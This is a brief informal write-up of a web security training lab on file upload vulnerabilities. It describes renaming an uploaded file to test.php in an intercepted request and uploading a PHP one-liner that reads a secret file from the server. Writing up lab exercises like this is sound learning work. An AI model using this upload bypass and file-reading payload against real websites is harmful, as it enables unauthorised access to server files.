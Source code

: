 LAB 1 file upload vulnerabilities
solved this by capturing the request of the website were it took my image and changed the filename in the repeater to test.php ,
and changed the body to <?php echo file_get_contents('/home/carlos/secret') ?>
than i got the answer
